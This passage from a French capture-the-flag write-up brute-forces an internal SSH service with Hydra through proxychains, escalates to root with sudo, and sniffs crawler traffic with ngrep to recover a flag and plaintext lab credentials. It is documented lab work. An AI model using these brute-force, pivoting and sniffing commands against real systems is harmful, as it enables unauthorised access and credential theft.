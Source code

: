 ```plain
```

We would have such a very good time
-----------------------------------

Pour terminer intéressons nous au port SSH accessible uniquement depuis l'intéreur du réseau.  

```plain
$ ./proxychains4 -q -f proxychains.conf hydra -e nsr -L /tmp/users.txt -P /tmp/pass.txt ssh://172.31.200.1/
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra)
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 153 login tries (l:9/p:17), ~10 tries per task
[DATA] attacking ssh://172.31.200.1:22/
[22][ssh] host: 172.31.200.1   login: admin   password: admin
1 of 1 target successfully completed, 1 valid password found
```

Et à partir de là :  

```plain
$ sudo -l
sudo: unable to resolve host myhouse7
[sudo] password for admin: 
Matching Defaults entries for admin on myhouse7:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User admin may run the following commands on myhouse7:
    (ALL) ALL

$ sudo su
sudo: unable to resolve host myhouse7
root@myhouse7:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
```

Oups il manque un flag que j'ai du rater sur l'énumération web. Pas de panique, je met un Ngrep en écoute pour matcher *tryharder* puis je scanne le CMS avec Wapiti :  

```plain
wapiti -u http://192.168.1.50:8115/ -v2 --color -m ''
```

Ngrep le voit transiter dans le pages crawlées :  

```plain
$ sudo ngrep -q -d enp3s0 tryharder "host 192.168.1.50"
interface: enp3s0 (192.168.1.0/255.255.255.0)
filter: ( host 192.168.1.50 ) and ((ip || ip6) || (vlan && (ip || ip6)))
match: tryharder
T 192.168.1.47:51848 -> 192.168.1.50:8115 [AP] #160
  token=VEAiR1kR79jMeKa9poYANMNof3VpFKherzzebo7PcofDyOe5pphilyPQ1rHNjHc3&flag=%7B%7Btryharder%3A104%7D%7D&user=alice&pass=Letm3in_
```
